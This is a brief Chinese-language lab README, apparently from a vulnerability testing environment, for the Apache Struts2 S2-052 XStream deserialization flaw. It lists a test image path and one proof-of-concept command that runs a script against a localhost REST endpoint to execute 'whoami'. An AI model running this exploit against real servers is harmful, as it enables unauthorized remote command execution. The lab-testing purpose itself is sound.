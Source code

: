 ### S2-052 xtream 反序列化漏洞

测试镜像

* src/struts/2.5.12/

Poc

```
python s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

